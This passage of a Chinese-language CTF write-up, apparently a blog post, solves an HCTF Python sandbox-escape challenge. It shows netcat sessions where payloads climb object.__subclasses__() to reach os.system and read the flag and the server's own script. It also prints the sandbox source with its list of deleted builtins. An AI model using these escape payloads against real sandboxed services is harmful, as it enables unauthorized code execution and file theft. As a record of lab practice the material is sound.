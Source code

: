 然后读取flag的内容：

	~ ⮀ nc 115.29.191.81 15878
	Python 2.7.6 (default, Mar 22 2014, 22:59:56)
	[GCC 4.8.2] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	(InteractiveConsole)
	[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('cat /home/starbucks/grande/greentea/latte/flag');exit()
	hctf{J_do_mo_xyz_!_123_HAHA_lee}
	>>> 0
	
PS：这里也能读取程序本身代码（/home/starbucks/starbucks.py）：

	 ~ ⮀ nc 115.29.191.81 15878
	Python 2.7.6 (default, Mar 22 2014, 22:59:56)
	[GCC 4.8.2] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	(InteractiveConsole)
	().__class__.__bases__[0].__subclasses__()[40]('/home/starbucks/starbucks.py').read();exit()
	>>> "#!/usr/bin/env python\n# -*- coding: utf-8 -*-\nfrom code import InteractiveConsole\n\nvars = globals().copy()\nvars.update(locals())\nshell = InteractiveConsole(vars)\n# shell.interact()\n\n# rm unsafe\ndef make_safe():\n    UNSAFE = ['open',\n              'file',\n              'execfile',\n              #'compile',\n              'reload',\n              '__import__',\n              'eval',\n              'input']\n    for func in UNSAFE:\n        del __builtins__.__dict__[func]\n\ndel vars\nmake_safe()\n\nshell.interact()\n"
	
**starbucks.py**

{% highlight python %}

#!/usr/bin/env python
# -*- coding: utf-8 -*-

from code import InteractiveConsole
vars = globals().copy()
vars.update(locals())
shell = InteractiveConsole(vars)
# shell.interact()

# rm unsafe
def make_safe():
    UNSAFE = ['open',
              'file',
              'execfile',
             #'compile',
              'reload',
              '__import__',
              'eval',
              'input']
    for func in UNSAFE:
        del __builtins__.__dict__[func]


del vars
make_safe()
shell.interact()

{% endhighlight %}
	